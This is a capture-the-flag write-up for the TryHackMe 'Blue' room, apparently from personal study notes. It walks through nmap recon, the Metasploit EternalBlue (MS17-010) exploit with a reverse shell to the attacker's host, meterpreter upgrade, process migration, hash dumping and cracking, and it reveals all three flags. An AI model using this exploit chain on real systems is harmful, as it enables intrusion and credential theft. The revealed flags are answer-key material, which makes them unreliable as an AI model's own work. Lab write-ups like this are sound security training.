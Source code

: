 # Blue

![tryhackme.com - © TryHackMe](<../../learn/.gitbook/assets/tryhackme-logo-small (2).png>)

> 🔬🌐 [Blue](https://tryhackme.com/room/blue)
>
> _Deploy & hack into a Windows machine, leveraging common misconfigurations issues._
>
> <img src=".gitbook/assets/blue.jpg" alt="" data-size="original">

🎯 Target IP: `10.10.177.175`

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Privilege Escalation

* Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

* My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g.` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for _**no password**_.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

* In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```

<details>

<summary>Reveal Flag1: 🚩</summary>

`flag{access_the_machine}`

<img src=".gitbook/assets/image-20230316143237356.png" alt="" data-size="original">

</details>

```bash
cd C:/Windows/System32/config
cat flag2.txt
```

<details>

<summary>Reveal Flag2: 🚩</summary>

`flag{sam_database_elevated_access}`

<img src=".gitbook/assets/image-20230316143502259.png" alt="" data-size="original">

</details>

```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```

<details>

<summary>Reveal Flag3: 🚩</summary>

`flag{admin_documents_can_be_valuable}`

<img src=".gitbook/assets/image-20230316143807868.png" alt="" data-size="original">

</details>

***
